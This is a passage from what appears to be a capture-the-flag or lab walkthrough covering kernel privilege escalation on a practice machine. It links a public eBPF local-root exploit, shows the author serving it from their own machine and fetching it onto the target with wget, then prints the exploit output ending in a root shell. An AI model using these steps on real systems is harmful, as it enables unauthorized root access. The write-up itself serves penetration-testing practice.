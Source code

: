 ```console
Thanks and have a blessed week!

-Brian Johnson
7 Minute Security
```

### Kernel Exploitation

We can't finish our mission without get root, the kernel version for this system allows for arbitrary read/write access to the linux kernel, bypassing SMEP/SMAP, you can download the exploit [here](https://raw.githubusercontent.com/offensive-security/exploitdb/master/exploits/linux/local/45010.c).


I started a web server with php on my local machine on port 80.

```console
root@kali:~$ php -S 192.168.179.1:80 
```

Then I transferred the exploit to the target machine, compiled it and ran it.

```console
bigtommysenior@CallahanAutoSrv01:/tmp$ wget 192.168.179.1/45010.c -O r00t.c

bigtommysenior@CallahanAutoSrv01:/tmp$ ./r00t 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880016d9b500
[*] Leaking sock struct from ffff880016d38000
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800130aa780
[*] UID from cred structure: 1002, matches the current: 1002
[*] hammering cred structure at ffff8800130aa780
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),1002(bigtommysenior)
```


